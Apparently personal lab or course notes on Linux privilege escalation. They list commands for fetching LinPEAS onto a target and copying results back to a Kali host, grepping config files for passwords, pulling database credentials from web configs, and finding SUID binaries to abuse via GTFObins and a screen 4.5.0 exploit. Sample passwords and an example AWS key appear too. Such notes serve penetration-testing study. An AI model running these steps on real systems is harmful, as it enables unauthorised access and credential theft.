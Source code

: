 - LinPEAS
    - kali -> target 
```
wget https://github.com/peass-ng/PEASS-ng/releases/download/20240630-b2cfbe8a/linpeas.sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/download/20240630-b2cfbe8a/linpeas.sh > linepeas.sh

scp linpeas.sh low@172.31.133.167:/home/low/linpeas.sh
chmod +x
./linpeas.sh | tee linpeas.output 

scp linpeas_result.txt kali@10.8.0.129:/home/kali/test
```
- password,creds file, password history files, hidden . files, web , DB, executable, UID GID SUID, shell variable , etc.



#### priv escalation
```
conf
cd /etc
ls -lah *.conf

grep -ri 'passw*' *.conf : recursive 
grep -ri 'password' *.conf 
```
- specific SW config files 

    - http : /var/www/html/
```
cat index.php
cat config.php > DB user acquired

ssh dbadmin@172.31.175.110
S3cretP@ssw0rd
```

- env : > creds hardcoding 
    - e.g. aws configure > development
    - AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY


- dpkg --list : SW vulns  can  know 
- ls -al /opt : optional dir - screen 4.5.0 > exploit DB serach 
    - sh script > send to target and execute. 




#### SUID
- execute as an owner of file 
```
find / -type f -perm -4000 2>/dev/null
gtfobins > abuse : screen-4.5.0, find , .. 
```
